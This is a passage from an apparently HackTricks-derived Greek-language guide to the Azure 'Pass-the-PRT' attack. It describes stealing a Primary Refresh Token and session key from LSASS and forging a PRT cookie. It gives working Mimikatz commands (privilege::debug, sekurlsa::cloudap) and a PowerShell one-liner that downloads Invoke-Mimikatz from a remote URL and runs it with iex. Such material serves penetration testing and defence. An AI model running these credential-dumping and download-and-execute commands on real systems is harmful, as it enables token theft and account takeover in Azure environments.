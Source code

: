 Μετά, πηγαίνετε στο [https://portal.azure.com](https://portal.azure.com)

> [!CAUTION]
> Τα υπόλοιπα θα πρέπει να είναι τα προεπιλεγμένα. Βεβαιωθείτε ότι μπορείτε να ανανεώσετε τη σελίδα και το cookie δεν εξαφανίζεται, αν το κάνει, μπορεί να έχετε κάνει ένα λάθος και θα πρέπει να περάσετε ξανά από τη διαδικασία. Αν δεν το κάνει, θα είστε εντάξει.

### Επίθεση - Mimikatz

#### Βήματα

1. Το **PRT (Primary Refresh Token) εξάγεται από το LSASS** (Local Security Authority Subsystem Service) και αποθηκεύεται για μελλοντική χρήση.
2. Το **Session Key εξάγεται στη συνέχεια**. Δεδομένου ότι αυτό το κλειδί εκδίδεται αρχικά και στη συνέχεια επανακρυπτογραφείται από τη τοπική συσκευή, απαιτεί αποκρυπτογράφηση χρησιμοποιώντας ένα DPAPI masterkey. Λεπτομερείς πληροφορίες σχετικά με το DPAPI (Data Protection API) μπορείτε να βρείτε σε αυτούς τους πόρους: [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords) και για κατανόηση της εφαρμογής του, ανατρέξτε στην [επίθεση Pass-the-cookie](az-pass-the-cookie.md).
3. Μετά την αποκρυπτογράφηση του Session Key, το **παράγωγο κλειδί και το πλαίσιο για το PRT αποκτώνται**. Αυτά είναι κρίσιμα για τη **δημιουργία του cookie PRT**. Συγκεκριμένα, το παράγωγο κλειδί χρησιμοποιείται για την υπογραφή του JWT (JSON Web Token) που συνιστά το cookie. Μια εκτενής εξήγηση αυτής της διαδικασίας έχει παρασχεθεί από τον Dirk-jan, προσβάσιμη [εδώ](https://dirkjanm.io/digging-further-into-the-primary-refresh-token/).

> [!CAUTION]
> Σημειώστε ότι αν το PRT είναι μέσα στο TPM και όχι μέσα στο `lsass` **το mimikatz δεν θα μπορέσει να το εξάγει**.\
> Ωστόσο, θα είναι δυνατό να **πάρετε ένα κλειδί από ένα παράγωγο κλειδί από ένα πλαίσιο** από το TPM και να το χρησιμοποιήσετε για να **υπογράψετε ένα cookie (ελέγξτε την επιλογή 3).**

Μπορείτε να βρείτε μια **σε βάθος εξήγηση της διαδικασίας που εκτελέστηκε** για την εξαγωγή αυτών των λεπτομερειών εδώ: [**https://dirkjanm.io/digging-further-into-the-primary-refresh-token/**](https://dirkjanm.io/digging-further-into-the-primary-refresh-token/)

> [!WARNING]
> Αυτό δεν θα λειτουργήσει ακριβώς μετά τις διορθώσεις του Αυγούστου 2021 για να αποκτήσετε τα PRT tokens άλλων χρηστών, καθώς μόνο ο χρήστης μπορεί να αποκτήσει το PRT του (ένας τοπικός διαχειριστής δεν μπορεί να έχει πρόσβαση στα PRT άλλων χρηστών), αλλά μπορεί να έχει πρόσβαση στο δικό του.

Μπορείτε να χρησιμοποιήσετε το **mimikatz** για να εξάγετε το PRT:
```powershell
mimikatz.exe
Privilege::debug
Sekurlsa::cloudap

# Or in powershell
iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'
```
(Εικόνες από https://blog.netwrix.com/2023/05/13/pass-the-prt-overview)

<figure><img src="../../../images/image (251).png" alt=""><figcaption></figcaption></figure>
